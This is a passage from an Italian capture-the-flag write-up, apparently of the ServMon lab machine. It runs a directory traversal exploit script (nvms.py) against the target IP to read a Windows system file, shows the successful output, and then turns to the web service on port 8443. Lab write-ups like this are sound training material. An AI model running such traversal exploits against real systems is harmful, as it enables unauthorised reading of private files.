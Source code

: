 ```bash
python3 nvms.py 10.10.10.184 Windows/system.ini win.ini
```

Ottengo il seguente risultato:

```text
[+] DT Attack Succeeded
[+] Saving File Content
[+] Saved
[+] File Content

++++++++++ BEGIN ++++++++++
; for 16-bit app support
[386Enh]
woafont=dosapp.fon
EGA80WOA.FON=EGA80WOA.FON
EGA40WOA.FON=EGA40WOA.FON
CGA80WOA.FON=CGA80WOA.FON
CGA40WOA.FON=CGA40WOA.FON

[drivers]
wave=mmdrv.dll
timer=timer.drv

[mci]

++++++++++  END  ++++++++++
```

Quindi è vulnerabile!

Procedo visitando la pagina https://10.10.10.184:8443/index.html:

<p align="center">
  <img src="/Immagini/Windows-Box/ServMon/servmon-2.png"/>
</p>
